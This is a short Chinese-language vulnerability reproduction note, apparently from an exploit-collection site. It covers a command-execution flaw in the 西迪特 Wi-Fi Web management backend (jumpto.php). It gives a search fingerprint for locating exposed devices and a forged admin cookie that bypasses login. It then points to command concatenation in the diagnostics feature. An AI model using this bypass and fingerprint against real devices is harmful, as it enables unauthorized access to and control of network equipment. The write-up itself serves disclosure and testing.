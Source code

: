 # 西迪特 Wi-Fi Web管理 jumpto.php 后台命令执行漏洞

## 漏洞描述

西迪特 Wi-Fi Web管理系统后台过滤不足导致远程命令执行漏洞

## 漏洞影响

```
西迪特 Wi-Fi Web管理
```

## 网络测绘

```
title=="Wi-Fi Web管理"
```

## 漏洞复现o

登录页面

![image-20220519183944313](./images/202205191841065.png)

通过越权漏洞获取权限，添加Cookie

```
Cookie: timestamp=0; cooLogin=1; cooUser=admin
```

进入后台后，诊断功能点存在命令拼接执行漏洞

![image-20220519184158173](./images/202205191841279.png)